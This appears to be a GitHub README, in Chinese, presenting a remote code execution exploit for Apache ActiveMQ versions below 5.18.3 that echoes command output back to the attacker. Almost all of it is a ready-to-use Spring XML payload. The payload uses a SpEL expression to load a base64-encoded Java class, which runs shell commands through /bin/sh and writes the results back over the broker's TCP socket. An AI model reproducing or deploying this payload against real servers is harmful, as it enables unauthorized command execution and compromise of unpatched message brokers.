

# ActiveMqRCE 有回显
用java实现构造openwire协议，利用activeMQ &lt; 5.18.3 RCE


## 11.16号新增有回显的命令执行exp
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:spring="http://camel.apache.org/schema/spring"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://camel.apache.org/schema/spring http://camel.apache.org/schema/spring/camel-spring.xsd http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context.xsd">
    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean  class="#{T(org.springframework.cglib.core.ReflectUtils).defineClass('CMDResponse',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADQAnwoAIwBYCABZBwBaBwBbCABcCABdCgADAF4KAAMAXwoAYABhBwBiCgAKAFgKAGMAZAoACgBlCgAKAGYKAAQAZwcAaAoAEABpCgBqAGsIAGwKAG0AbggAPQoAbQBvCgBwAHEKAHAAcgcAcwgAdAgAQwcAdQoAHAB2CAB3CgAEAHgKAHkAegoAeQB7BwB8BwB9AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAA1MQ01EUmVzcG9uc2U7AQAEdGVzdAEAFShMamF2YS9sYW5nL1N0cmluZzspVgEADnByb2Nlc3NCdWlsZGVyAQAaTGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcjsBAAVzdGFydAEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAAtpbnB1dFN0cmVhbQEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAFWJ5dGVBcnJheU91dHB1dFN0cmVhbQEAH0xqYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbTsBAARyZWFkAQABSQEAAWUBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBAAZ0aHJlYWQBABJMamF2YS9sYW5nL1RocmVhZDsBAAZhQ2xhc3MBABFMamF2YS9sYW5nL0NsYXNzOwEABnRhcmdldAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAAl0cmFuc3BvcnQBADBMb3JnL2FwYWNoZS9hY3RpdmVtcS90cmFuc3BvcnQvdGNwL1RjcFRyYW5zcG9ydDsBAAdhQ2xhc3MxAQALc29ja2V0ZmllbGQBAAZzb2NrZXQBABFMamF2YS9uZXQvU29ja2V0OwEADG91dHB1dFN0cmVhbQEAFkxqYXZhL2lvL091dHB1dFN0cmVhbTsBAANjbWQBABJMamF2YS9sYW5nL1N0cmluZzsBAAZyZXN1bHQBABZMb2NhbFZhcmlhYmxlVHlwZVRhYmxlAQAUTGphdmEvbGFuZy9DbGFzczwqPjsBAA1TdGFja01hcFRhYmxlBwB8BwBbBwBaBwB+BwB/BwBiBwBoAQAKRXhjZXB0aW9ucwcAgAEAClNvdXJjZUZpbGUBABBDTURSZXNwb25zZS5qYXZhDAAkACUBAAABABhqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXIBABBqYXZhL2xhbmcvU3RyaW5nAQAHL2Jpbi9zaAEAAi1jDAAkAIEMAC8AggcAfgwAgwCEAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAH8MADUAhQwAhgCHDACIAIkMACQAigEAE2phdmEvbGFuZy9FeGNlcHRpb24MAIsAjAcAjQwAjgCPAQAQamF2YS5sYW5nLlRocmVhZAcAkAwAkQCSDACTAJQHAJUMAJYAlwwAmACZAQAub3JnL2FwYWNoZS9hY3RpdmVtcS90cmFuc3BvcnQvdGNwL1RjcFRyYW5zcG9ydAEALm9yZy5hcGFjaGUuYWN0aXZlbXEudHJhbnNwb3J0LnRjcC5UY3BUcmFuc3BvcnQBAA9qYXZhL25ldC9Tb2NrZXQMAJoAmwEAAQoMAJwAiQcAnQwAhgCKDACeACUBAAtDTURSZXNwb25zZQEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEAFSgpTGphdmEvbGFuZy9Qcm9jZXNzOwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBAAMoKUkBAAV3cml0ZQEABChJKVYBAAt0b0J5dGVBcnJheQEABCgpW0IBAAUoW0IpVgEACmdldE1lc3NhZ2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAEGphdmEvbGFuZy9UaHJlYWQBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsBAA9qYXZhL2xhbmcvQ2xhc3MBAAdmb3JOYW1lAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBABdqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZAEADXNldEFjY2Vzc2libGUBAAQoWilWAQADZ2V0AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAA9nZXRPdXRwdXRTdHJlYW0BABgoKUxqYXZhL2lvL091dHB1dFN0cmVhbTsBAAhnZXRCeXRlcwEAFGphdmEvaW8vT3V0cHV0U3RyZWFtAQAFY2xvc2UAIQAiACMAAAAAAAIAAQAkACUAAQAmAAAALwABAAEAAAAFKrcAAbEAAAACACcAAAAGAAEAAAAHACgAAAAMAAEAAAAFACkAKgAAAAEAKwAsAAIAJgAAAnAABgALAAAAzRICTbsAA1kGvQAEWQMSBVNZBBIGU1kFK1O3AAdOLbYACDoEGQS2AAk6BbsAClm3AAs6BgM2BxkFtgAMWTYHAp8ADRkGFQe2AA2n/+27AARZGQa2AA63AA9NpwAJTi22ABFNuAASThITuAAUOgQZBBIVtgAWOgUZBQS2ABcZBS22ABjAABk6BhIauAAUOgcZBxIbtgAWOggZCAS2ABcZCBkGtgAYwAAcOgkZCbYAHToKGQoSHrYAH7YAIBkKLLYAH7YAIBkKtgAhpwAETrEAAgADAFkAXAAQAGIAyADLABAABAAnAAAAcgAcAAAACwADAA0AHQAOACMADwAqABAAMwARADYAEgBCABMATAAVAFkAGABcABYAXQAXAGIAGwBmABwAbQAdAHYAHgB8AB8AhwAgAI4AIQCXACIAnQAjAKkAJACwACUAugAmAMMAJwDIACoAywAoAMwALwAoAAAArAARAB0APAAtAC4AAwAjADYALwAwAAQAKgAvADEAMgAFADMAJgAzADQABgA2ACMANQA2AAcAXQAFADcAOAADAGYAYgA5ADoAAwBtAFsAOwA8AAQAdgBSAD0APgAFAIcAQQA/AEAABgCOADoAQQA8AAcAlwAxAEIAPgAIAKkAHwBDAEQACQCwABgARQBGAAoAAADNACkAKgAAAAAAzQBHAEgAAQADAMoASQBIAAIASgAAABYAAgBtAFsAOwBLAAQAjgA6AEEASwAHAEwAAAA7AAb/ADYACAcATQcATgcATgcATwcAUAcAUQcAUgEAABX/AA8AAwcATQcATgcATgABBwBTBfcAaAcAUwAAVAAAAAQAAQBVAAEAVgAAAAIAVw=='),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance().test('ls')}">
    </bean>
</beans>
```

